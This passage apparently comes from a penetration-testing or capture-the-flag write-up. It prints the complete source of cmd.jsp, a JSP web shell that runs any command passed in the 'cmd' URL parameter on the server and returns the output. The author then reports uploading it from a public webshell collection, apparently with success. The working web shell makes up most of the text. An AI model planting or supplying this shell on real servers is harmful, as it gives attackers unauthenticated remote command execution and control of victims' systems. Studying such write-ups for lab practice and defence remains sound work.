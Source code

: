 ```java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

Next, I tried uploading a `cmd.jsp` simple webshell from [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp) 

![](../../.gitbook/assets/2-virusbucket-success.png)
